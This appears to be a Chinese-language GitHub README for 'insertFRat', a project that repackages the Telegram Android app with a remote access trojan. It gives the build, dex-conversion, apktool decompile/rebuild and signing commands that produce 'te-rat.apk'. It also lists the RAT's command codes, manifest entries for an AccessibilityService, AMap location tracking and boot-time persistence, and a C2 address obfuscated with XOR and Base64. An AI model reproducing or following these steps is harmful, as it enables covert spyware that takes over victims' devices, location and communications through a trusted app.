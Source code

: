 # Android码（Telegram）
### insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

### Telegram 编译打包
## gradlew makeJar  // 生成jar
## dx --dex --output ratdex.jar rat.jar // 转换jar
## java -jar apktool_2.4.1.jar d app-debug.apk // 反编译APK，得到smail
## java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
## jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

#### 指令返回
## 0          //success
## 10001      //没有权限，无法执行操作
## 10002      //文件上传失败，请重试
## 10003      //指令参数错误，参数为目录
## 10004      //文件夹已存在
## 10005      //文件夹创建失败

#### Telegram 配置
#### File_path smali_classes2
### AccessibilityService
## <service
##     android:name="com.hhm.android.otherapp.myService"
##     android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
##     <intent-filter>
##         <action android:name="android.accessibilityservice.AccessibilityService"/>
##     </intent-filter>
##     <meta-data
##         android:name="android.accessibilityservice"
##         android:resource="@xml/accessibility"/>
## </service>

### 高德地图
## <service android:name="com.amap.api.location.APSService" />
## <meta-data
##     android:name="com.amap.api.v2.apikey"
##     android:value="9ca8190b472b1e379bb7b11943b60618" />

### 开机自启动
## <uses-permission android:name="android.permission.DISABLE_KEYGUARD" />
## <receiver
##     android:name="com.hhm.android.otherapp.BootReceiver"
##     android:enabled="true"
##     android:exported="true"
##     android:priority="1000">
##     <intent-filter android:directBootAware="true">
##         <action android:name="android.intent.action.BOOT_COMPLETED" />
##         <action android:name="android.intent.action.LOCKED_BOOT_COMPLETED" />
##         <action android:name="android.intent.action.QUICKBOOT_POWERON" />
##         <action android:name="android.intent.action.REBOOT"/>
##         <category android:name="android.intent.category.HOME" />
##     </intent-filter>
## </receiver>

## 异或加密 Base64Util.encode(XorUtil.xor("192.168.3.86:8001") 解密：XorUtil.xor(Base64Util.decode("d3Bga2Vze2Z1Z2pzbn1zeHc="))
